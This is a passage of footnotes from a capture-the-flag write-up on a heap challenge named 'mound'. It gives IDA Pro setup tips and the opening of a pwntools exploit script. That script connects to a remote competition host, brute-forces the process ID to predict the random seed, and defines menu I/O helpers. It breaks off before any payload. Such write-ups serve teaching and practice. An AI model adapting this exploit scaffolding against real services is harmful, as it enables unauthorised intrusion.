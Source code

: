    The script found nothing.

3. In case you're wondering how there's a pseudocode reference to `mound_arena.mcache->entries[]`, as opposed to an ugly red `*(_QWORD *)(MEMORY[0xDEAD0008008] + 8 * (v3 + 2LL) + 8)` reference:

   * Define the `mound_metadata` class (and the other `struct`s from [here](#mound)) in the `Structures` tab; you should see an entry like this in the local types tab (Shift+F1):
     ![](/assets/image-20210809082020677.png) 
   * In the IDA View tab, select `Edit --> Segments --> Create Segment`; fill the pop-up window with sensible values
   * put a variable at `mound_arena:00000DEAD0000000` and retype it (`Y`) as a `mound_metadata`.

4. The code block there isn't supposed to make sense. Throughout the writeup, I've tried to keep declarations and variables consistent across code snippets, but getting this code to match with everything else in the writeup is just a _little bit_ intractable.

5. This is the reason why I ended up searching for [the intended solution](#the-obvious-solution). My silly alternative method for getting to `win()` doesn't work on remote; the time cost associated with a single connection – let alone _bruteforcing the PID_ – makes it impossible to increment `mcache->entries[-1]` without an absurdly low ping.
   The 30x number comes from a crude measure of how many times the exploit calls `choose()`. For the intended solution, it's about a hundred. The negative indexing process takes around ~3000 calls on average, and this shakes out to an exploit duration of around 15 minutes _per guess_ on remote.
   Feel free to try it out youself:

   ```python
   from random import randint
   from collections import namedtuple
   from ctypes import CDLL
   from tqdm import tqdm
   from pwnscripts import *
   
   BEEF, DEAD = 0xbeef0000000, 0xdead0000000
   mound_arena = namedtuple('mound_metadata', 'base ids mcache top')(DEAD, DEAD+0x8, DEAD+0x8008, DEAD+0x8010)
   mound_data = namedtuple('beef', 'base mcache dents shellcode')(BEEF, BEEF+0x10, BEEF+0x10000, BEEF+0x100)
   midxs = namedtuple('midb', 'prev_size_editor fakeid_provider strdup mcache_dup got_overwriter')(5, 6, 0, 1, 2)
   
   context.binary = 'mound'
   context.libc = 'libc.so.6'
   libc = CDLL('libc.so.6')
   t = libc.time(0)
   if args.REMOTE:
       r = remote('193.57.159.27', 41932)
       #r = remote('localhost', 8329)
       libc.srand(t^int(args.PID)) # bruteforce PID
   else:
       r = context.binary.process()
       libc.srand(t^r.pid)
   
   # I/O methods
   def choose(opt: int): r.sendlineafter(b'> ', str(opt))
   def strdup(s: bytes, i: int):
       choose(1)
       r.sendafter(b'Pile: ', s)
       r.sendlineafter(b'index: ', str(i))
   def add(midx: int, idx: int, s: bytes):
       choose(2)
       sz = midx2rsize(midx)
       assert sz < 0x1000
       assert len(s) <= sz
       r.sendlineafter('pile: ', str(sz))
       r.sendlineafter('index: ', str(idx))
   ```